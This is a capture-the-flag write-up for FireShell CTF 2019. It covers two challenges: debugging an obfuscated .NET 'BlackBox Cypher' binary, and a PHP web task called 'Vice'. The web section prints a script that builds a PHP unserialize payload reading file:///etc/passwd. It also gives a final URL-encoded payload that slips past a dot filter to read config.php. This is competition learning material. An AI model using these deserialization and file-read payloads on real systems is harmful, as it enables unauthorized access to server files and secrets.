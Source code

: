 # FireShell CTF 2019

## RE - BlackBox Cypher

Task :

![](.gitbook/assets/image%20%28213%29.png)

It's .Net file so we put it in dnspy

![](.gitbook/assets/image%20%28228%29.png)

Oops...obfuscated, try to clean it with de4dot

![](.gitbook/assets/image%20%28178%29.png)

Better, but still fucking so heavy. It's quite easy to know that the file work/obfuscated like this :

It created 100+ junk class, each have few function \(2-6 func\) and call to each other

Sounds pain in the ass, right?

Also, the challenge name is "Blackbox Cipher", so i assume that i dont even need to understand the algorithm behind it.

So i trying to run the binary, dump it and search for string in memory.

But where to stop to dump? Well, there is no other way around, you must debug the application to see where it generate the crypted flag.

![](.gitbook/assets/image%20%28263%29.png)

As you can see, after navigate through the code for a while, i realize the result is my encoded flag, where it's only assigned at

```text
result = Class9.smethod_1(null, type).vmethod_3(this.method_149()).vmethod_0();
```

Now i know that somehow it calculate encoded flag in those method, which mean it init flag somewhere in that too.

So there is 2 ways to solve this problem at this moment :

1. You keep debugging through these code and search through memory too.
2. You just now dump the memory, base64\("F\#{"\) and search in memory

Both work well,  i checked after ctf end, but when the ctf is running, i choose first one, because :

1. I dont know flag format since i havent read rules page...oops!
2. I am afraid that it will some where delete the flag out of memory before it return the encoded flag or maybe it can split flag into many method, and receive few bytes from each, null it after used immediately

After 15 minutes of pressing F11, i finally got

![](.gitbook/assets/image%20%28271%29.png)

Base64 decode it, we got flag

```text
F#{It's_all_about_memory_forensics}
```



## Web - Vice

Task :

```php
<?php
//require_once 'config.php';

class SHITS{
  private $url;
  private $method;
  private $addr;
  private $host;
  private $name;

  function __construct($method,$url){
    $this->method = $method;
    $this->url = $url;
  }

  function doit(){
    
    $this->host = @parse_url($this->url)['host'];
    $this->addr = @gethostbyname($this->host);
    $this->name = @gethostbyaddr($this->host);
    if($this->addr !== "127.0.0.1" || $this->name === false){
      $not = ['.txt','.php','.xml','.html','.','[',']'];
      foreach($not as $ext){
        $p = strpos($this->url,$ext);
        if($p){
          die(":)");
        }
      }
      $ch = curl_init();
      curl_setopt($ch,CURLOPT_URL,$this->url);
      curl_setopt($ch,CURLOPT_RETURNTRANSFER,true);

      $result = curl_exec($ch);
      echo $result;
    }else{
      die(":)");
    }
  }
  function __destruct(){
    if(in_array($this->method,array("doit"))){
 
      call_user_func_array(array($this,$this->method),array());
    }else{
      die(":)");
    }
  }
}
if(isset($_GET["gg"])) {
    @unserialize($_GET["gg"]);
} else {
    highlight_file(__FILE__);
}
```

I was trying to solve Boring Check, but then our team rank is down quickly to 3rd, and we must solve one more chall to keep our rank, compete with @bi0s for 3rd place. Time to call help from home.

![](.gitbook/assets/image%20%2858%29.png)

From @Thach works, we finally can craft the payload and read file base on php unserialize bug



```php
//Credit : Thach Nguyen Hoang
<?php
//require_once 'config.php';

class SHITS{
  private $url;
  private $method;
  private $addr;
  private $host;
  private $name;

  function __construct($method,$url){
    $this->method = $method;
    $this->url = $url;
  }

  function doit(){
    
    $this->host = @parse_url($this->url)['host'];
    echo $this->host;
    $this->addr = @gethostbyname($this->host);
    $this->name = @gethostbyaddr($this->host);
    if($this->addr !== "127.0.0.1" || $this->name === false){
      $not = ['.txt','.php','.xml','.html','.','[',']'];
      foreach($not as $ext){
        $p = strpos($this->url,$ext);
        if($p){
          echo $ext;
          die(":)");
        }
      }
      $ch = curl_init();
      curl_setopt($ch,CURLOPT_URL,$this->url);
      curl_setopt($ch,CURLOPT_RETURNTRANSFER,true);

      $result = curl_exec($ch);
      /* echo $result; */
    }else{
      die(":)");
    }
  }
  
  function __destruct(){
    if(in_array($this->method,array("doit"))){
 
      call_user_func_array(array($this,$this->method),array());
    }else{
      die(":)");
    }
  }
}


$o = new SHITS('doit', 'file:///etc/passwd');
echo urlencode(serialize($o));
```

What next? Where is flag?

```text
//require_once 'config.php';
```

There is commented line on challenge source. But it have '.' inside file name, which is filtered. So to bypass strpos\(\), we use urlencode, and guess the path to config.php, which is :

```text
/var/www/html/config%2ephp
```

Final payload

```text
view-source:http://68.183.31.62:991/?gg=O%3A5%3A%22SHITS%22%3A5%3A%7Bs%3A10%3A%22%00SHITS%00url%22%3Bs%3A33%3A%22file%3A%2F%2F%2Fvar%2Fwww%2Fhtml%2Fconfig%252ephp%22%3Bs%3A13%3A%22%00SHITS%00method%22%3Bs%3A4%3A%22doit%22%3Bs%3A11%3A%22%00SHITS%00addr%22%3BN%3Bs%3A11%3A%22%00SHITS%00host%22%3BN%3Bs%3A11%3A%22%00SHITS%00name%22%3BN%3B%7D
```

Flag

```text
F#{wtf_5trp0s_}
```



## Last words

We end up at 3rd place. Time to practice more...

![](.gitbook/assets/image%20%28218%29.png)

